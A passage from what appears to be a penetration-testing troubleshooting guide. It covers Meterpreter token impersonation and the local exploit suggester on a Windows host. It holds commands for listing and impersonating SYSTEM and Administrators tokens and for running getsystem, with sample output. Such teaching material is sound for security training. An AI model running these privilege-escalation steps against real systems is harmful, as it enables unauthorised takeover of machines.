 **Common Causes:**
- No privileged users logged in currently
- Current process has insufficient access to see tokens
- System is newly rebooted with minimal services

---

### **❌ Problem 2: Token Impersonation Fails**

**What You See:**
```bash
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is lost
[-] Delegation token not found
```

**How to Fix:**
```bash
# Step 1: Check available tokens again
meterpreter > list_tokens -u
# Verify SYSTEM token is actually available

# Step 2: Try exact token format
meterpreter > list_tokens -u | grep SYSTEM
# Copy exact format shown

meterpreter > impersonate_token "NT AUTHORITY\SYSTEM"
# Try without double backslash

# Step 3: Use getsystem instead
meterpreter > getsystem
# Automated privilege escalation alternative

# Step 4: Try impersonation tokens instead
meterpreter > list_tokens -g
meterpreter > impersonate_token "BUILTIN\\Administrators"
```

**Common Causes:**
- Wrong token format or spelling
- Insufficient privileges to impersonate
- Token not available in delegation list
- Security software blocking impersonation

---

### **❌ Problem 3: Local Exploit Suggester Finds Nothing**

**What You See:**
```bash
[*] 10.0.19.243 - Collecting local exploits for x86/windows...
[*] 10.0.19.243 - 176 exploit checks are being tried...
[*] 10.0.19.243 - Valid modules for session 1:
============================
[*] Post module execution completed
```

